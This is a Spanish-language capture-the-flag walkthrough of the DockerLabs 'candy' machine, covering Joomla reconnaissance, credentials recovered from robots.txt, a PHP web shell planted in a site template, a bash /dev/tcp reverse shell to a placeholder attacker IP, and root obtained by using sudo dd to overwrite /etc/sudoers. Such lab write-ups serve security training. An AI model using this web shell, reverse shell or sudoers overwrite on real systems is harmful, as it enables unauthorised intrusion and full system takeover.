



Máquina candy [DockerLabs](https://dockerlabs.es)

Autor: [Luisillo_o](https://www.youtube.com/@Luisillo_o)

Dificultad: Fácil



# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt
```

```css
# Nmap 7.94SVN scan initiated Thu Aug 29 20:00:40 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000015s latency).
Scanned at 2024-08-29 20:00:41 -03 for 15s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home
|_http-favicon: Unknown favicon MD5: 1B6942E22443109DAEA739524AB74123
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-robots.txt: 17 disallowed entries 
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
| /language/ /layouts/ /un_caramelo /libraries/ /logs/ /modules/ 
|_/plugins/ /tmp/
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 29 20:00:56 2024 -- 1 IP address (1 host up) scanned in 16.16 seconds
```

Como vemos solo esta abierto el puerto 80 corriendo apache, por lo que podemos intuir que la intrusion es mediante uan reverse shell.

##### PUERTO 80:



Como vemos parece haber un `joomla`, por lo que podemos usar la herramienta `joomscan` de la siguiente manera:

```css
joomscan -u http://172.17.0.2/
```

```css

    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
			(1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://172.17.0.2/ ...



[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 4.1.2

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://172.17.0.2/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://172.17.0.2/robots.txt 

Interesting path found from robots.txt
http://172.17.0.2/joomla/administrator/
http://172.17.0.2/administrator/
http://172.17.0.2/api/
http://172.17.0.2/bin/
http://172.17.0.2/cache/
http://172.17.0.2/cli/
http://172.17.0.2/components/
http://172.17.0.2/includes/
http://172.17.0.2/installation/
http://172.17.0.2/language/
http://172.17.0.2/layouts/
http://172.17.0.2/un_caramelo
http://172.17.0.2/libraries/
http://172.17.0.2/logs/
http://172.17.0.2/modules/
http://172.17.0.2/plugins/
http://172.17.0.2/tmp/


[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found


Your Report : reports/172.17.0.2/

```

Como vemos hay varias cosas interesantes, pero luego de revisar, lo único que nos va a ayudar es el "robots.txt" ya que si entramos desde el navegador y vemos la última línea veremos estas credenciales:

```css
admin:c2FubHVpczEyMzQ1
```

que como vemos están en base64, por lo que simplemente vamos al terminal y ejecutamos:

```css
echo 'c2FubHVpczEyMzQ1' | base64 -d
```

```css
sanluis12345
```

Por lo que ya tenemos credenciales: `admin:sanluis12345`. Para introducirlas tenemos que ir a `172.17.0.2/administrator`.

# INTRUSION

Ahora continuaremos a enviarnos una reverse shell, para hacerlo vamos a `system > Templates > Site Templates > Cassiopeia Details and Files`. Una vez ahí editaremos el index.php borrando todo y solo dejando el siguiente codigo:

```php
<?php
       system($_GET['cmd']);
?>
```

Lo guardamos y volvemos a `http://172.17.0.2` pero ponemos lo siguiente:

```css
http://172.17.0.2/?cmd=bash -c 'bash -i >%26 /dev/tcp/<IP>/<PUERTO> 0>%261'
```

pero antes de enviarlo escuchamos con el netcat de la siguiente manera:

```css
nc -nlvp 443 # Elije el puerto que quieras
```

# ESCALADA DE PRIVILEGIOS

Antes de continuar primero haremos el tratamiento de la tty, para hacerlo debemos ejecutar estos comandos:

```css
script /dev/null -c bash # Damos al enter y presionamos ctrl+Z
stty raw -echo; fg # Damos al enter y escribimos "reset xterm" y nuevamente enter
export TERM=xterm && export SHELL=bash && stty rows 33 columns 128
```

Ahora si esta todo listo para escalar de manera correcta.

### www-data

Siendo el usuario www-data podemos ejcutar `sudo -l` pero no nos sirve de nada, entonces luego de buscar, veo que hay un archivo en `/var/backups/hidden/otro_caramelo.txt ` y si lo leemos tiene esto:

```css


                          _____             _             _           _                                           
                         |  __ \           | |           | |         | |                                          
  ______ ______ ______   | |  | | ___   ___| | _____ _ __| |     __ _| |__  ___     ______ ______ ______ ______   
 |______|______|______|  | |  | |/ _ \ / __| |/ / _ \ '__| |    / _` | '_ \/ __|   |______|______|______|______|  
                         | |__| | (_) | (__|   <  __/ |  | |___| (_| | |_) \__ \                                  
                         |_____/ \___/ \___|_|\_\___|_|  |______\__,_|_.__/|___/                                  


Aqui esta su caramelo Joven :)

<?php
// Información sensible
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';

// Código de conexión a la base de datos
function connectToDatabase() {
    global $db_host, $db_user, $db_pass, $db_name;
    $conn = new mysqli($db_host, $db_user, $db_pass, $db_name);
    if ($conn->connect_error) {
        die("Conexión fallida: " . $conn->connect_error);
    }
    return $conn;
}

// Información adicional
echo "Bienvenido a Joomla en línea!";
?>


  ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ 
 |______|______|______|______|______|______|______|______|______|______|______|______|______|______|______|______|

```

Lo único que nos sirve es la contraseña del usuario luisillo que es "luisillosuperpassword", por lo que escalamos ejecutando `su luisillo` y poniendo la contraseña.

### luisillo

Si ejecutamos `sudo -l` vemos lo siguiente:

```css
Matching Defaults entries for luisillo on ee406841b794:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on ee406841b794:
    (ALL) NOPASSWD: /bin/dd
```

Por lo que para escalar podemos ejcutar esto:

```css
LFILE=/etc/sudoers
echo "luisillo ALL=(ALL:ALL) ALL" | sudo dd of=$LFILE
```

Una vez hecho esto ya tendremos permisos root para todos los comandos, y solo escalamos ejecutando `sudo su` y poniendo la contraseña de luisillo.

